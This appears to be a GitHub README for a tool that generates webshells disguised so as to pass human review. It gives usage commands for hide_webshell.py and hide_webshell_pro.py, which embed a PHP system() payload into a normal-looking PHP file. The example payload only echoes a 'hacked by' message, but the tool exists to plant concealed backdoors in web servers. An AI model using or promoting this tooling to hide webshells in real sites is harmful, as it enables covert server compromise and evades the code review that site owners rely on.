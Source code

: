 # webshell-bypassed-human
过人 webshell 的生成工具

```shell
» python hide_webshell.py
[!] usage: python hidden_webshell.py payload filename [output_filename]
  [-] example: python hidden_webshell.py 'system("echo \"hacked by Tr0y :)\"");' webshell.php
```

## hide webshell
示例：

`python hide_webshell.py 'system("echo \"hacked by Tr0y :)\"");' normal.php`

## hide webshell pro
示例：

`python hide_webshell_pro.py 'system("echo \"hacked by Tr0y :)\"");' normal_pro.php`
